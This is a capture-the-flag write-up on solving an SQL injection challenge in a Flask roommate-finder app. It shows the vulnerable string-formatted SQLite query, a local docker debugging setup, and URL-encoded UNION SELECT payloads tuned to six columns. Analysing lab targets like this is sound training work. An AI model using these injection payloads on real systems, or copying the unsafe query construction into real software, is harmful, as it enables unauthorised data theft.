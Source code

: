 I first view the data.sql file to know if the flag is there inserted in the same table. however, towards the end of the file, we see - 
```
CREATE TABLE flag (
flag text
);
INSERT INTO flag VALUES("lactf{fake_flag}");

```
so we need the flag to be taken from the table flag. On opening the challenge, we are greeted by a page that looks like this - 
I entered some random values here
![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/b746eab3-f7a3-4c5a-860a-f1258025cb79)
On clicking the button, the request sent is intercepted by burpsuite and it looks like - 
![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/ef3d57a5-86bd-415c-a714-2947d45e3334)
and in the server, we see the query being executed looks like - 
```
query = """
    select * from users where {} LIMIT 25;
    """.format(
        " AND ".join(["{} = '{}'".format(k, v) for k, v in prefs.items()])
    )
```
I thought it should be easy and I can easily select the data from the flags table but something weird was going on and I needed to run the server in docker. I modified the app.py code to be like - 
```
@app.route("/submit", methods=["POST"])
def search_roommates():
    data = request.form.copy()

    if len(data) > 6:
        return "Invalid form data", 422
    
    
    for k, v in list(data.items()):
        if v == 'na':
            data.pop(k)
        if (len(k) > 10 or len(v) > 50) and k != "name":
            return "Invalid form data", 422
        if "--" in k or "--" in v or "/*" in k or "/*" in v:
            return render_template("hacker.html")

    data.pop("name")
    query = """
    select * from users where {} LIMIT 25;
    """.format(
        " AND ".join(["{} = '{}'".format(k, v) for k, v in data.items()])
    )
    name = query

    roommates = get_matching_roommates(data)
    return render_template("results.html", users = roommates, name=name)
    

def get_matching_roommates(prefs: dict[str, str]):
    if len(prefs) == 0:
        return []
    query = """
    select * from users where {} LIMIT 25;
    """.format(
        " AND ".join(["{} = '{}'".format(k, v) for k, v in prefs.items()])
    )
    print(query)
    conn = sqlite3.connect('file:data.sqlite?mode=ro', uri=True)
    cursor = conn.cursor()
    cursor.execute(query)
    r = cursor.fetchall()
    cursor.close()
    return r
```
so that I can see the query being executed in the backend. unlike what I expected, 6 columns are getting returned and not just 4. 
all we need to do is basic sqli with a union statement.

...it seems that I forgot how I solved this challenge hence I need to open docker and see where I'm making the error, again :')
Anyway, I'll use this opportunity to show how I run the challenge in docker and make place print statements -
1. I unzip the file and run the command ``` docker build . -t ctf_chall``` which makes the docker image and tags it as 'ctf_chall'. then I open docker and run the image by keeping the host port as 0.
2. ![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/4cc9bd24-1f4a-40ee-bd2a-a2a5df342f45)
3. I modify the app.py like you see in the image
4. I also added the code -
   ```
   if __name__ == "__main__":
    app.run(
        host="0.0.0.0",
        port=8080,
        debug=True,
    )

   ```
   to app.py so that it'll show all the errors that may be going on.
5. I restart the docker container
so I initially was using payload like -
```name=sdf&guests=0'%20union%20select%201%2c2%2c3%2c4%2c'5```
however, this was also wrong! I forgot that 6 columns are being returned after I saw the error in the logs
![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/7ab0fe25-6c1d-44b8-8a74-24c5c3e429ab)
so I modified the payload like ```name=sdf&guests=0'%20union%20select%201%2c1%2c2%2c3%2c4%2c'5```
and I see that the numbers 1,2,3,4,5 are being printed on the screen. hence I make the new payload to get the flag -

![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/5177b9f9-2599-4d5c-a9b5-9c7f554711d9)
I see that the docker container is correctly returning the test flag, hence I use this same payload on the real server - 
![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/1d6580ce-7a51-4465-b3f5-176be819ae84)
hence I get the flag like -
![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/d246dc20-f2bb-4435-9d3a-207155fe221e)



